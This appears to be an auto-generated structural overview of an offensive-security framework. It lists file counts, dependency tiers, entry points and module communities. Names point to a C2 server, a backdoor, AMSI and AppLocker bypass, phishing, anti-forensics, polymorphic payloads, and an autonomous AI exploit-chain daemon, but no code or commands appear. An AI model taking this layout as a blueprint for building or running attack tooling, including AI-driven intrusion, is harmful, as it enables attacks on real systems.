# Polyglot Codebase Knowledge Graph

> Generated offline by **readmenator**. 1015 files, 19585 symbols, 9665 imports. Supports C, C++, Python, Go, Rust, JS/TS, Java, C#, Shell, PHP, Dart, GDScript, Nim, ASM, Ruby, Swift, Kotlin, Scala, Lua, Elixir.
> No LLMs. No tokens. Pure static analysis. See more [here](https://github.com/grisuno/ReadMenator)

**Start here:** Statistics Dashboard for scope, God Nodes for blast radius, Architecture Reference for per-file API. Agents: prefer `readmenator-agent/INDEX.md` + `SYMBOLS.md`.

**Wiki:** prefer `readmenator-wiki/index.md` for progressive disclosure: one synthesis page per community, `connections.json` with EXTRACTED vs INFERRED confidence, `queries.md` log, `REPORT.md` audit.

**Confidence:** EXTRACTED = parsed from source, INFERRED = heuristic bridge, AMBIGUOUS = reported, never hidden. See `readmenator-wiki/REPORT.md`.

**Total Files Parsed:** 1015 | **Total Symbols Extracted:** 19585 | **Total Imports:** 9665
 | **Resolved Imports:** 4177

<!-- ranking_model: v1.0 | weights: {ppr:0.45,auth:0.2,test:0.15,doc:0.1,fresh:0.1} | alpha:0.85 | commit:4f3af6c | date:2026-07-18 -->


## Table of Contents

1. [Statistics Dashboard](#statistics-dashboard)
2. [Architectural Layers](#architectural-layers)
3. [Architecture Overview](#architecture-overview)
4. [Execution Flows](#execution-flows)
5. [Ranked Context](#ranked-context)
6. [God Nodes](#god-nodes)
7. [Community Analysis](#community-analysis)
8. [Surprising Connections](#surprising-connections)
9. [Suggested Questions](#suggested-questions)
10. [Force-Graph Explorer](#force-graph-explorer)
11. [Corpus Analytics](#corpus-analytics)
12. [Taint Propagation Map](#taint-propagation-map)
13. [Hotspot Analysis](#hotspot-analysis)
14. [Dependency Cycles](#dependency-cycles)
15. [Change Impact Analysis](#change-impact-analysis)
16. [Architecture Violations](#architecture-violations)
17. [Suggested Linting Rules](#suggested-linting-rules)
18. [Dataflow Analysis](#dataflow-analysis)
19. [Concept Graph](#concept-graph)
20. [Orphans](#orphans)
21. [Query Recipes](#query-recipes)
22. [Structural Knowledge Map](#structural-knowledge-map)
23. [UML Class Diagram](#uml-class-diagram)
24. [Code Property Graph](#code-property-graph)
25. [Architecture Reference](#architecture-reference)
    - [ASM (1 files)](#asm-1-files)
    - [C (15 files)](#c-15-files)
    - [CPP (1 files)](#cpp-1-files)
    - [CS (1 files)](#cs-1-files)
    - [H (1 files)](#h-1-files)
    - [JS (21 files)](#js-21-files)
    - [LUA (26 files)](#lua-26-files)
    - [PHP (1 files)](#php-1-files)
    - [PY (887 files)](#py-887-files)
    - [SH (61 files)](#sh-61-files)

---

## Statistics Dashboard

| Metric | Value |
|--------|-------|
| Total Files | 1015 |
| Total Symbols | 19585 |
| Total Imports | 9665 |
| Call Edges | 142055 |
| Inheritance Edges | 657 |
| Languages | 10 |
| Avg Symbols/File | 19.3 |
| Avg Imports/File | 9.5 |
| Resolved Imports | 4177 |

### Top Files by Import Count (Fan-Out)

| File | Imports | Symbols | Language |
|------|---------|---------|----------|
| `lazyown_mcp.py` | 261 | 142 | py |
| `lazyc2.py` | 167 | 284 | py |
| `test_lazy_runner.py` | 149 | 143 | py |
| `test_command_palette.py` | 119 | 238 | py |
| `lazy_loop.py` | 118 | 456 | py |
| `test_core_modules.py` | 110 | 94 | py |
| `lazyown.py` | 105 | 129 | py |
| `autonomous_daemon.py` | 90 | 148 | py |
| `misc_migrated.py` | 82 | 32 | py |
| `lazyops.py` | 81 | 71 | py |

---

## Architectural Layers

Auto-detected from path patterns, naming conventions, and imported frameworks.

| Layer | Files |
|-------|-------|
| utility | 620 |
| testing | 262 |
| infrastructure | 72 |
| presentation | 37 |
| business_logic | 19 |
| data_access | 5 |

### infrastructure

- `driver.sh` (sh, 0 symbols)
- `bootstrap.sh` (sh, 16 symbols)
- `banner_config.py` (py, 120 symbols)
- `containers.py` (py, 7 symbols)
- `config_history.py` (py, 9 symbols)
- `config_status.py` (py, 6 symbols)
- `marketplace_config.py` (py, 46 symbols)
- `plugin_tiers.py` (py, 8 symbols)
- `toast_bus.py` (py, 49 symbols)
- `config.py` (py, 17 symbols)
- `logging.py` (py, 12 symbols)
- `scheduler.py` (py, 17 symbols)
- `__init__.py` (py, 0 symbols)
- `short_urls.py` (py, 5 symbols)
- `users.py` (py, 3 symbols)
- *... and 57 more*

### utility

- `DEPLOY.sh` (sh, 3 symbols)
- `__init__.py` (py, 0 symbols)
- `banner.py` (py, 3 symbols)
- `__init__.py` (py, 0 symbols)
- `aliases.py` (py, 7 symbols)
- `assign.py` (py, 1 symbols)
- `auto_crypto.py` (py, 13 symbols)
- `autosuggest.py` (py, 27 symbols)
- `chain_mode.py` (py, 23 symbols)
- `cli_enhancements.py` (py, 69 symbols)
- `command_chain.py` (py, 25 symbols)
- `command_explorer.py` (py, 7 symbols)
- `command_form.py` (py, 31 symbols)
- `__init__.py` (py, 0 symbols)
- `_base.py` (py, 7 symbols)
- *... and 605 more*

### data_access

- `database.py` (py, 16 symbols)
- `storage.py` (py, 12 symbols)
- `config_store.py` (py, 11 symbols)
- `memory_store.py` (py, 33 symbols)
- `activate_migrations.py` (py, 7 symbols)

### presentation

- `help_ui.py` (py, 16 symbols)
- `dashboard_layout.py` (py, 3 symbols)
- `exploration_view.py` (py, 6 symbols)
- `lazy_http_bof.py` (py, 2 symbols)
- `lazydeepseekcli.py` (py, 16 symbols)
- `lazyphishingai.py` (py, 12 symbols)
- `api_authz.py` (py, 31 symbols)
- `http.py` (py, 10 symbols)
- `lazyc2.py` (py, 284 symbols)
- `app_factory.py` (py, 9 symbols)
- `addons.py` (py, 14 symbols)
- `api.py` (py, 10 symbols)
- `api_v1.py` (py, 12 symbols)
- `auth.py` (py, 19 symbols)
- `beacon.py` (py, 7 symbols)
- *... and 22 more*

### business_logic

- `host_policy.py` (py, 3 symbols)
- `process.py` (py, 12 symbols)
- `models.py` (py, 2 symbols)
- `services.py` (py, 16 symbols)
- `__init__.py` (py, 0 symbols)
- `backend.py` (py, 20 symbols)
- `event_log.py` (py, 7 symbols)
- `factory.py` (py, 4 symbols)
- `local_backend.py` (py, 20 symbols)
- `models.py` (py, 15 symbols)
- `teamserver_backend.py` (py, 46 symbols)
- `ai_model.py` (py, 39 symbols)
- `domain_dominance.py` (py, 30 symbols)
- `fast_run_service.sh` (sh, 39 symbols)
- `threat_model.py` (py, 16 symbols)
- *... and 4 more*

### testing

- `test_lazyencoder_decoder.py` (py, 0 symbols)
- `test_app.py` (py, 56 symbols)
- `test_bdd.sh` (sh, 2 symbols)
- `conftest.py` (py, 0 symbols)
- `test_orchestrator.py` (py, 20 symbols)
- `__init__.py` (py, 0 symbols)
- `test_autonomous_daemon.py` (py, 88 symbols)
- `test_facts.py` (py, 37 symbols)
- `test_harness_e2e.py` (py, 10 symbols)
- `test_hive_mind.py` (py, 95 symbols)
- `test_mcp_smoke.py` (py, 5 symbols)
- `test_objectives.py` (py, 28 symbols)
- `test_parquet_db.py` (py, 33 symbols)
- `test_commands.py` (py, 15 symbols)
- `test_bdd.sh` (sh, 0 symbols)
- *... and 247 more*

---

## Architecture Overview

37 components stacked in 11 dependency tiers (weighted Eades-Lin-Smyth ordering: arrows point from dependent to dependency, top to bottom). Labels are import counts, thick arrows the top quartile; 34 transitively implied edges are omitted. Dashed red arrows are upward dependencies: the smallest set of imports that closes every cycle and breaks the layering. Cyan components hold entry points. Interactive version: `readmenator-apidocs/index.html#/flows`.

Upward dependencies to fix first: `cli/commands: utils` -> `modules: autonomous_daemon` (32 imports); `modules: lazyc2` -> `modules: autonomous_daemon` (26 imports); `modules: lazy_loop` -> `modules: autonomous_daemon` (23 imports); `cli: status_bar` -> `modules: autonomous_daemon` (22 imports); `modules: estorides_importer` -> `modules: lazyc2` (16 imports); `cli/commands: utils` -> `modules: lazyc2` (14 imports); `cli: status_bar` -> `cli/commands: utils` (13 imports); `cli/commands: utils` -> `modules: lazy_loop` (11 imports); `cli: status_bar` -> `modules: lazyc2` (9 imports); `modules: lazy_loop` -> `modules: lazyc2` (9 imports); `cli: status_bar` -> `cli: banner_config` (8 imports); `cli/commands: utils` -> `modules: estorides_importer` (7 imports); `cli/commands: utils` -> `cli: banner_config` (5 imports); `modules: estorides_importer` -> `modules: autonomous_daemon` (5 imports); `cli/commands: c2_profile_engine` -> `modules: lazyc2` (5 imports); `modules: surface_graph` -> `cli/commands: utils` (4 imports); `cli: status_bar` -> `modules: lazy_loop` (4 imports); `static/js` -> `cli/commands: utils` (4 imports); `static/js` -> `cli: status_bar` (4 imports); `cli: status_bar` -> `cli/commands: c2_profile_engine` (3 imports); `modules: lazy_loop` -> `modules: estorides_importer` (3 imports); `cli: status_bar` -> `modules: estorides_importer` (2 imports); `cli: banner_config` -> `modules: lazyc2` (2 imports); `skills/claude_md_orchestrator` -> `cli/commands: utils` (1 imports); `skills/claude_md_orchestrator` -> `modules: lazyc2` (1 imports); `skills/claude_md_orchestrator` -> `cli/commands: c2_profile_engine` (1 imports); `modules: surface_graph` -> `modules: autonomous_daemon` (1 imports); `modules: surface_graph` -> `modules: estorides_importer` (1 imports); `static/js` -> `modules: lazyc2` (1 imports); `static/js` -> `modules: autonomous_daemon` (1 imports); `static/js` -> `modules: lazy_loop` (1 imports); `static/js` -> `cli/commands: c2_profile_engine` (1 imports); `cli: banner_config` -> `modules: estorides_importer` (1 imports)

```mermaid
flowchart TB
    classDef cycle fill:#1f1530,stroke:#f472b6,color:#fce7f3,stroke-width:2px;
    classDef default fill:#111827,stroke:#38bdf8,color:#e5e7eb;
    classDef entry fill:#0e7490,stroke:#22d3ee,color:#ecfeff,stroke-width:2px;
    subgraph lane_0["Tier 1 - entry / orchestration"]
        direction LR
        n_c12["modules: kerberos_core<br/>7 files, 138 symbols<br/>Core / utility"]:::default
        n_c13["modules: saas_attacks<br/>7 files, 77 symbols<br/>Core / utility"]:::default
        n_c14["skills/hermes-lazyown<br/>7 files, 120 symbols<br/>Core / utility"]:::default
        n_c15["modules: polymorphic_engine<br/>6 files, 89 symbols<br/>Core / utility"]:::default
        n_c5["lazygui/panels<br/>51 files, 405 symbols<br/>Core / utility"]:::entry
        n_d_tools["tools<br/>2 files, 6 symbols<br/>Core / utility"]:::default
        n_d_tests["tests<br/>2 files, 5 symbols<br/>Presentation / entry"]:::default
        n_d_static["static<br/>2 files, 4 symbols<br/>Core / utility"]:::default
        n_d_source["source<br/>1 files, 0 symbols<br/>Core / utility"]:::default
        n_d_skills["skills<br/>5 files, 659 symbols<br/>Core / utility"]:::default
        n_d_scripts["scripts<br/>19 files, 60 symbols<br/>Core / utility"]:::default
        n_d_plugins["plugins<br/>26 files, 45 symbols<br/>Infrastructure"]:::default
        n_d_modules["modules<br/>74 files, 602 symbols<br/>Core / utility"]:::default
        n_d_lazyown_docker["lazyown-docker<br/>3 files, 14 symbols<br/>Core / utility"]:::entry
        n_d_deploy["deploy<br/>1 files, 2 symbols<br/>Core / utility"]:::default
        n_d_contrib["contrib<br/>22 files, 133 symbols<br/>Core / utility"]:::default
        n_d__claude[".claude<br/>1 files, 0 symbols<br/>Infrastructure"]:::default
        n_d__root_["(root)<br/>13 files, 60 symbols<br/>Core / utility"]:::entry
        n_c23["tools<br/>2 files, 4 symbols<br/>Core / utility"]:::default
        n_c22["test<br/>1 files, 2 symbols<br/>Infrastructure"]:::default
        n_c21["scripts: migrate_lazyown<br/>1 files, 6 symbols<br/>Core / utility"]:::default
        n_c20["scripts: check_contract_manifest<br/>1 files, 13 symbols<br/>Core / utility"]:::default
        n_c19["poc_tui<br/>2 files, 33 symbols<br/>Infrastructure"]:::default
        n_c18["modules/backdoor<br/>2 files, 6 symbols<br/>Core / utility"]:::default
        n_c17["scripts: journal<br/>2 files, 16 symbols<br/>Core / utility"]:::default
    end
    subgraph lane_1["Tier 2"]
        direction LR
        n_c2["modules: autonomous_daemon<br/>73 files, 2008 symbols<br/>Core / utility"]:::cycle
    end
    subgraph lane_2["Tier 3"]
        direction LR
        n_c1["modules: lazyc2<br/>96 files, 2091 symbols<br/>Core / utility"]:::cycle
    end
    subgraph lane_3["Tier 4"]
        direction LR
        n_c6["modules: estorides_importer<br/>33 files, 484 symbols<br/>Core / utility"]:::cycle
    end
    subgraph lane_4["Tier 5"]
        direction LR
        n_c8["cli: banner_config<br/>18 files, 412 symbols<br/>Core / utility"]:::cycle
    end
    subgraph lane_5["Tier 6"]
        direction LR
        n_c9["cli/commands: c2_profile_engine<br/>17 files, 282 symbols<br/>Core / utility"]:::cycle
    end
    subgraph lane_6["Tier 7"]
        direction LR
        n_c4["modules: lazy_loop<br/>40 files, 1163 symbols<br/>Core / utility"]:::cycle
    end
    subgraph lane_7["Tier 8"]
        direction LR
        n_c0["cli/commands: utils<br/>95 files, 1492 symbols<br/>Core / utility"]:::entry
    end
    subgraph lane_8["Tier 9"]
        direction LR
        n_c11["modules: surface_graph<br/>10 files, 159 symbols<br/>Core / utility"]:::cycle
        n_c10["skills/claude_md_orchestrator<br/>16 files, 189 symbols<br/>Core / utility"]:::cycle
        n_c16["contrib/legacy<br/>4 files, 15 symbols<br/>Core / utility"]:::default
    end
    subgraph lane_9["Tier 10"]
        direction LR
        n_c3["cli: status_bar<br/>60 files, 1075 symbols<br/>Core / utility"]:::entry
    end
    subgraph lane_10["Tier 11 - foundation"]
        direction LR
        n_c7["static/js<br/>15 files, 252 symbols<br/>Core / utility"]:::cycle
    end
    n_c0 -->|"1"| n_c10
    n_c0 ==>|"4"| n_c11
    n_c0 -->|"1"| n_c16
    n_c1 ==>|"10"| n_c6
    n_c11 -->|"2"| n_c3
    n_c12 -->|"1"| n_c0
    n_c13 -->|"1"| n_c0
    n_c14 -->|"1"| n_c2
    n_c15 -->|"1"| n_c0
    n_c2 ==>|"85"| n_c1
    n_c3 ==>|"6"| n_c7
    n_c4 ==>|"18"| n_c0
    n_c5 -->|"1"| n_c2
    n_c6 -->|"1"| n_c8
    n_c8 -->|"1"| n_c9
    n_c9 -->|"3"| n_c4
    n_c1 <-.-|"14 upward"| n_c0
    n_c2 <-.-|"32 upward"| n_c0
    n_c4 <-.-|"11 upward"| n_c0
    n_c6 <-.-|"7 upward"| n_c0
    n_c8 <-.-|"5 upward"| n_c0
    n_c2 <-.-|"26 upward"| n_c1
    n_c0 <-.-|"1 upward"| n_c10
    n_c1 <-.-|"1 upward"| n_c10
    n_c9 <-.-|"1 upward"| n_c10
    n_c0 <-.-|"4 upward"| n_c11
    n_c2 <-.-|"1 upward"| n_c11
    n_c6 <-.-|"1 upward"| n_c11
    n_c0 <-.-|"13 upward"| n_c3
    n_c1 <-.-|"9 upward"| n_c3
    n_c2 <-.-|"22 upward"| n_c3
    n_c4 <-.-|"4 upward"| n_c3
    n_c6 <-.-|"2 upward"| n_c3
    n_c8 <-.-|"8 upward"| n_c3
    n_c9 <-.-|"3 upward"| n_c3
    n_c1 <-.-|"9 upward"| n_c4
    n_c2 <-.-|"23 upward"| n_c4
    n_c6 <-.-|"3 upward"| n_c4
    n_c1 <-.-|"16 upward"| n_c6
    n_c2 <-.-|"5 upward"| n_c6
    n_c0 <-.-|"4 upward"| n_c7
    n_c1 <-.-|"1 upward"| n_c7
    n_c2 <-.-|"1 upward"| n_c7
    n_c3 <-.-|"4 upward"| n_c7
    n_c4 <-.-|"1 upward"| n_c7
    n_c9 <-.-|"1 upward"| n_c7
    n_c1 <-.-|"2 upward"| n_c8
    n_c6 <-.-|"1 upward"| n_c8
    n_c1 <-.-|"5 upward"| n_c9
    linkStyle 16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48 stroke:#f87171,stroke-width:2px;
    n_c12 ~~~ n_c2
    n_c2 ~~~ n_c1
    n_c1 ~~~ n_c6
    n_c6 ~~~ n_c8
    n_c8 ~~~ n_c9
    n_c9 ~~~ n_c4
    n_c4 ~~~ n_c0
    n_c0 ~~~ n_c11
    n_c11 ~~~ n_c3
    n_c3 ~~~ n_c7
```

---

## Execution Flows

Entry points are scored from `__main__` guards, `main` functions, entry-style names and files, and call-graph sources. Each flow walks resolved calls in call-site order (depth <= 4, <= 40 steps); numbers give the call order, dashed arrows revisit an already expanded callee, red arrows are recursion. Interactive version with zoom and per-node docs: `readmenator-apidocs/index.html#/flows`.

### `server.main`

`modules/backdoor/server.c:10`, score 13: `main` in a compiled-language file; entry-style name `main`; defined in entry file `server.c`.

Call tree:



Cross-file sequence:



### `amsi.main`

`modules/amsi.c:428`, score 11: `main` in a compiled-language file; entry-style name `main`.

Call tree:



### `exp.main`

`modules/exp.c:620`, score 11: `main` in a compiled-language file; entry-style name `main`.

Call tree:



Cross-file sequence:



---

## Ranked Context

Files ranked by composite score for the current query context. The ranking combines Personalized PageRank (query relevance), global authority, test coverage, documentation coverage, and code freshness. Model: v1.0.

| Rank | File | Composite | PPR | Authority | Test | Doc |
|------|------|-----------|-----|-----------|------|-----|
| 1 | `parsers.py` | 0.2147 | 0.0308 | 0.0042 | 0.00 | 2.00 |
| 2 | `decoy.py` | 0.2027 | 0.0057 | 0.0009 | 0.00 | 2.00 |
| 3 | `tokens.py` | 0.2008 | 0.0000 | 0.0042 | 0.00 | 2.00 |
| 4 | `lazy_engine.py` | 0.2008 | 0.0000 | 0.0039 | 0.00 | 2.00 |
| 5 | `text_utils.py` | 0.2006 | 0.0000 | 0.0032 | 0.00 | 2.00 |
| 6 | `assign.py` | 0.2006 | 0.0000 | 0.0031 | 0.00 | 2.00 |
| 7 | `show.py` | 0.2004 | 0.0000 | 0.0022 | 0.00 | 2.00 |
| 8 | `mcp_lazy.py` | 0.2002 | 0.0000 | 0.0009 | 0.00 | 2.00 |
| 9 | `phase_labels.py` | 0.2002 | 0.0000 | 0.0009 | 0.00 | 2.00 |
| 10 | `__main__.py` | 0.2001 | 0.0000 | 0.0005 | 0.00 | 2.00 |

**Query anchors:** tests/test_single_implementation.py, tests/test_packaging.py, modules/reflective_dll.py, tests/test_hash_cracker.py, skills/claude_md_orchestrator/orchestrator.py, tests/test_addon_creator.py, skills/claude_md_orchestrator/bdd_agent.py, modules/macos_payloads.py

**Top result justification paths:**

  `test_single_implementation.py -> __init__.py -> config.py -> payload_schema.py -> enum.py -> _base.py -> utils.py -> parsers.py`
  `test_single_implementation.py -> __init__.py -> config.py -> payload_schema.py -> enum.py -> _base.py -> utils.py -> banner_config.py -> parsers.py`

---

## God Nodes

Most architecturally central files ranked by combined import/export degree and symbol richness.

| File | Score | Connections | PageRank |
|------|-------|-------------|----------|
| `logging.py` | 249.2 | | 0.0000 |
| `utils.py` | 212.4 | | 0.0000 |
| `_base.py` | 182.7 | | 0.0000 |
| `lazyown_mcp.py` | 182.2 | | 0.0000 |
| `lazy_loop.py` | 171.6 | | 0.0000 |
| `lazyc2.py` | 122.4 | | 0.0000 |
| `lazyown.py` | 116.9 | | 0.0000 |
| `console.py` | 101.1 | | 0.0000 |
| `autonomous_daemon.py` | 98.8 | | 0.0000 |
| `config.py` | 97.7 | | 0.0000 |

---

## Community Analysis

Files grouped by import-based community detection. Cohesion measures how tightly connected each community is internally.

### cli/commands: utils (Cohesion: 0.55)

**125 files** in this community:

- `banner.py` (py, 3 symbols)
- `aliases.py` (py, 7 symbols)
- `cli_enhancements.py` (py, 69 symbols)
- `_base.py` (py, 7 symbols)
- `_dormancy.py` (py, 2 symbols)
- `anti_forensics.py` (py, 7 symbols)
- `applocker_bypass.py` (py, 9 symbols)
- `audit.py` (py, 13 symbols)
- `bitm.py` (py, 8 symbols)
- `campaign.py` (py, 7 symbols)
- `catalog.py` (py, 6 symbols)
- `cicd.py` (py, 7 symbols)
- `cloud.py` (py, 7 symbols)
- `command_and_control.py` (py, 7 symbols)
- `command_and_control_migrated.py` (py, 26 symbols)
- `cred.py` (py, 10 symbols)
- `cred_migrated.py` (py, 33 symbols)
- `crystal_ball.py` (py, 5 symbols)
- `defaults.py` (py, 4 symbols)
- `demo.py` (py, 2 symbols)
- ... and 105 more files

### modules: lazyc2 (Cohesion: 0.50)

**123 files** in this community:

- `auto_crypto.py` (py, 13 symbols)
- `ai.py` (py, 8 symbols)
- `automation.py` (py, 13 symbols)
- `collaboration.py` (py, 8 symbols)
- `headless.py` (py, 6 symbols)
- `lazyaddon_creator.py` (py, 14 symbols)
- `lazydeepseekcli.py` (py, 16 symbols)
- `lazygptcli.py` (py, 14 symbols)
- `lazygptcli_unified.py` (py, 29 symbols)
- `lazyhoneypot.py` (py, 15 symbols)
- `lazyllmchat.py` (py, 30 symbols)
- `lazyopenssh77enum2.py` (py, 5 symbols)
- `lazyphishingai.py` (py, 12 symbols)
- `lazyproxy.py` (py, 9 symbols)
- `lazysearch_bot.py` (py, 13 symbols)
- `lazyseo.py` (py, 9 symbols)
- `lazyssh.py` (py, 1 symbols)
- `command_bridge.py` (py, 9 symbols)
- `executor.py` (py, 6 symbols)
- `llm_budget.py` (py, 45 symbols)
- ... and 103 more files

### modules: autonomous_daemon (Cohesion: 0.53)

**113 files** in this community:

- `caldera.py` (py, 21 symbols)
- `daemon_ctl.py` (py, 8 symbols)
- `pwn.py` (py, 8 symbols)
- `session_ops.py` (py, 36 symbols)
- `dashboard_layout.py` (py, 3 symbols)
- `dashboard_tui.py` (py, 64 symbols)
- `graph_advisor.py` (py, 52 symbols)
- `killchain.py` (py, 4 symbols)
- `ops_commands.py` (py, 53 symbols)
- `recommendation.py` (py, 22 symbols)
- `recommendation_signals.py` (py, 37 symbols)
- `lazypwn.py` (py, 15 symbols)
- `lazyvsftp.py` (py, 3 symbols)
- `sql.py` (py, 3 symbols)
- `__init__.py` (py, 0 symbols)
- `version.py` (py, 0 symbols)
- `ai_exploit_chain.py` (py, 11 symbols)
- `apt_playbooks.py` (py, 15 symbols)
- `asset_graph.py` (py, 17 symbols)
- `atomic_enricher.py` (py, 9 symbols)
- ... and 93 more files

### cli: status_bar (Cohesion: 0.53)

**97 files** in this community:

- `__init__.py` (py, 0 symbols)
- `autosuggest.py` (py, 27 symbols)
